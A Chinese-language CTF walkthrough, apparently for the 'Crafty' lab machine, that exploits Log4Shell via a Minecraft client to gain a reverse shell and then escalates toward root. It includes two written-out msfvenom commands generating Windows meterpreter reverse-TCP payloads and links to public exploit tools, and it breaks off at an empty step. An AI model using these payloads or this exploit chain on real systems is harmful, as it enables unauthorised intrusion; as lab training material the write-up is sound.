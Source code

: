 Crafty Level:Easy
===
尋找user.txt
---
    1.執行Nmap蒐集資訊
    
![圖片](https://github.com/favorite986141/jamescao/assets/125249893/fcb9fa95-f96f-4688-88d0-ef140cf168a6)

    2.目錄列舉，發現一個js資料夾是403

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/f5b4d0b6-d52e-48ea-9c03-ed9bf1a63722)

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/711cd664-28f2-46c3-b9ab-72df376aa95f)

    3.在使用dirbuster列舉，發現js資料夾裡面有main.js

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/e5673fc1-5556-4cf8-ad8b-2bd90a58b769)

    4.開啟main.js，有一段內容引人注目
    
![圖片](https://github.com/favorite986141/jamescao/assets/125249893/a3c42d5c-3937-4ac7-982e-0e4bf796c188)

這段程式碼主要功能是取得和顯示一個遊戲伺服器上的線上玩家數量。大概指的是mc伺服器，它透過定期查詢一個外部API來實現這一點，裡面運用了**updatePlayercount函數，**先是向https://api.bybilly.uk/api/players/${ip}/ ${port}發送一個GET請求，查詢指定IP和端口的遊戲伺服器的在線玩家數量，如果返回的是online，則顯示在.sip裡面，如果不返回online，說明斷線了，然後會在.playercount中顯示相應的信息，並使用setInterval設置一個定時器，每60秒調用一次updatePlayercount函數以定期更新玩家數量，裡面的是25565端口值得是mc的默認端口，這次利用log4j的poc來反彈shell，這次利用的是CVE-2021-44228編號的poc（也稱為Log4Shell漏洞）

    5.找到Log4Shell POC，執行前先下載jdk並變更檔名為jdk1.8.0_20
[CVE-2021-44228](https://github.com/kozmer/log4j-shell-poc)

[jdk](https://repo.huaweicloud.com/java/jdk/8u181-b13/jdk-8u181-linux-x64.tar.gz)

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/216407a1-9d28-4028-87dd-07ea685ce016)

    6.修改poc.py，因系統為Windows所以改成cmd.exe
    
![圖片](https://github.com/favorite986141/jamescao/assets/125249893/6fd8f14f-7aa9-4cac-afb0-e598f6603cd4)

    7.執行poc.py，會產生一組LDAP位置

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/066b4a78-ee68-4dd8-9260-763098dc1745)

    8.下載mc工具
[mc工具](https://github.com/ammaraskar/pyCraft)

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/b7d546bd-d42f-483b-81d7-24f192eb4cc6)

    9.執行mc工具，出現連接後輸入LDAP位置
    
![圖片](https://github.com/favorite986141/jamescao/assets/125249893/db107bb6-81f3-4335-9ff5-21535330d8af)

    10.log4j會出現200，nc就會成功反彈shell

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/908cdb72-8770-4997-bf80-6b79d9b29319)

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/23f5dcf6-c18b-458d-8d54-4c19a9c83522)

    11.找到user.txt

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/8e333a12-f6d2-49c3-ae1c-69e2aaae7af8)

尋找root.txt
---
    12.在plugins底下發現有一個.jar的檔案，需下載檢查內容

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/9510f70e-68d6-4bef-91e8-24460b8e0326)

    13.使用msfvenom建立一個reverse shell
    
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=4244 -f exe -o expl.exe
    
![圖片](https://github.com/favorite986141/jamescao/assets/125249893/e5ceb9f4-3f51-4d13-9321-191fc35e0a5a)

    14.使用msf建立reverse連接

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/b4d6cdf8-2705-4eac-a4db-cf64ce8ae515)

    15.將製作好的reverse shell傳輸到Windows上

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/e9bb9934-d1f5-40da-bd8c-68f47607fc59)

    16.執行expl.exe，msf會取得連接

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/d4431f48-4295-47bc-b419-b62d84f61223)

    17.在msf上直接download .jar檔案

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/67d6a99c-5dbf-45e8-a894-a2cf8f93cb22)

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/db619987-8f13-4d72-8dc5-b8eb05c5974f)

    18.反編譯.jar檔檢視內容，發現一組很像密碼的字串

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/26564a79-7f1e-4637-8226-a375a26d0780)

    19.找到RunasCs工具
    
[RunasCs]([https://github.com/antonioCoco/RunasCs](https://github.com/antonioCoco/RunasCs/releases))

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/0b15b409-49bf-48cb-8a41-a521f69537ff)


    20.使用msfvenom另外建立一個reverse shell
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=4246 -f exe -o exp2.exe

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/4392be79-8ed0-4349-b9ff-73f93da94669)

    21.

